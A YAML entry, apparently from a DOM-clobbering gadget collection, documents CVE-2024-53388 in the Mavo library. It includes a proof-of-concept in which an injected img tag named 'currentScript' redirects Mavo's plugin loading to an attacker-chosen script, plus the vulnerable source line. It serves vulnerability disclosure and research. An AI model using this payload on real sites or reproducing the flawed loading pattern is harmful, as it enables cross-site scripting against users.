 ```yaml
---
description: Mavo is an HTML-based language for building small scale data-driven websites without programming knowledge (no JS, no backends needed!), just by writing HTML. For JavaScript developers (who like HTML), Mavo can also be used as a declarative, reactive front-end framework to make UI development easier.
github: mavoweb/mavo
gadgets:
  ≤0.3.2:
    cve: CVE-2024-53388
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: The [Mavo](https://github.com/mavoweb/mavo)'s library was using `document.currentScript` as a reference to load plugins.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="https://get.mavo.io/stable/mavo.js"></script>
          <script nonce="secret">
          (function ($, $$) {
              Mavo.Plugins.register("myplugin", {
                  dependencies: [ "index.js" ],
              });
          })(Bliss, Bliss.$);
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/mavoweb/mavo/blob/78efe2b9cadd09c1d131b8afd5fe2f38d5cfa8c7/src/plugins.js#L95">https://github.com/mavoweb/mavo/blob/78efe2b9cadd09c1d131b8afd5fe2f38d5cfa8c7/src/plugins.js#L95</a>

      ```javascript
      if (o.dependencies) {
          let base = document.currentScript? document.currentScript.src : location;
          let dependencies = o.dependencies.map(url => Mavo.load(url, base));
          ready.push(...dependencies);
      }
      ```
    links:
      - https://github.com/advisories/GHSA-3mf5-r4hg-hfx9
      - https://gist.github.com/jackfromeast/a61a5429a97985e7ff4c1d39e339d5d8
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mavo.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```


